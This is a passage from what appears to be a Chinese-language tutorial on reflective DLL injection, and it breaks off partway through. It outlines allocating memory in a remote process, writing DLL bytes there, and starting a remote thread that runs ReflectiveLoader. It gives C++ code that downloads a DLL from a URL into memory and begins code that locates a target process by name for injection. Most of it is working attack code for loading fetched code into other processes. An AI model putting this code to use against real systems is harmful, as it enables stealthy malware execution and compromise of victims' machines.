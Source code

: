 在目标远程进程中分配足够的内存，以容纳即将写入的DLL字节。

4. **在远程内存位置写入 RAW 字节**

将下载或读取到的DLL字节写入分配好的远程内存中。

5. **创建一个将运行“ReflectiveLoader”函数的远程线程**

在远程进程中创建一个线程，以运行ReflectiveLoader函数，这样DLL就可以在目标进程中进行自我加载。
### 下载 dll
首先我们先将 dll 下载下来
```cpp
vector<char> downloadFromURL(IN LPCSTR url) {

	IStream* stream;
	vector<char> buffer;

	if (URLOpenBlockingStreamA(0, url, &stream, 0, 0))
	{
		cout << "[-] Error occured while downloading the file";
		return buffer;
	}
	buffer.resize(100);
	unsigned long bytesRead;
	int totalbytes = 0;
	while (true)
	{
		stream->Read(buffer.data() + buffer.size() - 100, 100, &bytesRead);
		if (0U == bytesRead)
		{
			break;
		}
		buffer.resize(buffer.size() + 100);
		totalbytes += bytesRead;
	};

	stream->Release();
	buffer.erase(buffer.begin() + totalbytes, buffer.end());
	return buffer;

}
```
### 在进程中注入 dll
很简单，直接上代码
```cpp
int RetrievePIDbyName(wchar_t* procName) {
    HANDLE hProcessSnap;
    PROCESSENTRY32 pe32;

    // 将进程名转换为小写
    ToLowerCaseWIDE(procName);

    // 获取系统中所有进程的快照
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE) {
        std::cout << "[-] 无法创建进程快照！" << std::endl;
        return 0;
    }

    // 设置结构体的大小
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // 检索第一个进程的信息，如果失败则退出
    if (!Process32First(hProcessSnap, &pe32)) {
        std::cout << "[-] 无法检索第一个进程的信息！" << std::endl;
```